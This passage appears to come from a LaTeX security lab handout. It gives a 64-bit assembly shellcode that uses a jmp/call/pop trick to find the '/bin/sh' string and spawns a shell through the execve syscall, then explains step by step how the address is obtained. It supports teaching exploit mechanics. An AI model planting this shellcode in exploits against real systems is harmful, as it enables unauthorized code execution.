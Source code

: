 \begin{lstlisting}[caption=A smaple 64-bit shellcode (\texttt{mysh64.s})] 
section .text
  global _start
    _start:
       BITS 64
       jmp short two
    one:
       pop rbx             
       
       mov [rbx+8],  rbx  ; store rbx to memory at address rbx + 8
       mov rax, 0x00      ; rax = 0
       mov [rbx+16], rax  ; store rax to memory at address rbx + 16
       
       mov rdi, rbx       ; rdi = rbx        (*@\lineone@*) 
       lea rsi, [rbx+8]   ; rsi = rbx +8     (*@\linetwo@*)  
       mov rdx, 0x00      ; rdx = 0
       mov rax, 59        ; rax = 59
       syscall
    two:
       call one                                                                   
       db '/bin/sh', 0 ; The command string (terminated by a zero)  (*@\linethree@*) 
       db 'AAAAAAAA'   ; Place holder for argv[0] 
       db 'BBBBBBBB'   ; Place holder for argv[1]
\end{lstlisting}

The code above first jumps to the instruction at 
location \texttt{two}, which does another 
jump (to location \texttt{one}), but this time,
it uses the \texttt{call} instruction.  This instruction 
is for function call, i.e., before it jumps to
the target location, it saves the address
of the next instruction (i.e., the return address) 
on the top of the stack, so when
the function returns, it can return to the 
instruction right after the \texttt{call} instruction.  

In this example, the ``instruction'' right after the 
\texttt{call} instruction is not actually an instruction; 
it stores a string. However, this does not matter, the
\texttt{call} instruction will push its address (i.e.,
the string's address) into the stack, in the return
address field of the function frame. When we 
get into the function, i.e., after jumping to 
location \texttt{one}, the top of the stack 
is where the return address is stored. Therefore,
the \texttt{pop rbx} instruction actually
get the address of the string on Line \linethree,
and save it to the \texttt{rbx} register. That is how the 
address of the string is obtained. 


 

\paragraph{Tasks.} Please do the following tasks:

